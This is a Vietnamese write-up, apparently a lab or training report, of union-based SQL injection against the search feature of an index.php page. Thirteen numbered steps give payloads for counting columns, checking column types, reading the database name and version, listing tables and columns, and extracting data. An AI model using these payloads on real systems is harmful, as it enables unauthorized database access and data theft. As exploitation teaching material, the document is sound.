

Người thực hiện: Lê Trần Văn Chương.
Ngày: 05/04/2022.
Mục lục:
- Khai thác SQLi Union Based chức năng search ở trang index.php
## Khai thác SQLi Union Based chức năng search ở trang index.php
1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
`' ORDER BY 14 #` 
	
2. Vị trí của từng cột dữ liệu trong bảng hiện ở ngoài client (1, 12, 2, 10, 11)
`' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14 #`

3. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (1)
`' UNION SELECT 'a',NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #` 

4. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (2)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`

5. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (10)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a',NULL,NULL,13,14 #` 

6. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (11)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a',NULL,13,14 #` 

7. Kiểm tra kiểu dữ liệu của từng cột hiện ở ngoài client (12)
`' UNION SELECT 'a','a',3,4,5,6,7,8,9,'a','a','a',13,14 #` 

8. Kiểm tra thử những cột vừa rồi kiểu dữ liệu có phải là string hay không
`' UNION SELECT 'asd','asd',3,4,5,6,7,8,9,'asd','asd','asd',13,14 #` 
=> Các cột hiện trên client đều có kiểu dữ liệu là string

9. Kiểm tra DB hiện tại
`' UNION SELECT database(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 

10.  Version của DB
`' UNION SELECT version(),2,3,4,5,6,7,8,9,10,11,12,13,14 #` 

11. Lấy tất cả các table có trong DB
`' UNION SELECT  table_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables #`
(Một số bảng đáng chú ý: `admin_func, payload, user, users, account, accounts`)

12.  Lấy tất cả các trường trong bảng admin_func
`' UNION SELECT  column_name,2,3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.columns WHERE table_name='admin_func' #`
=> từ đây có thể khai thác dữ liệu như mình muốn

13.  Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`.
`' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`
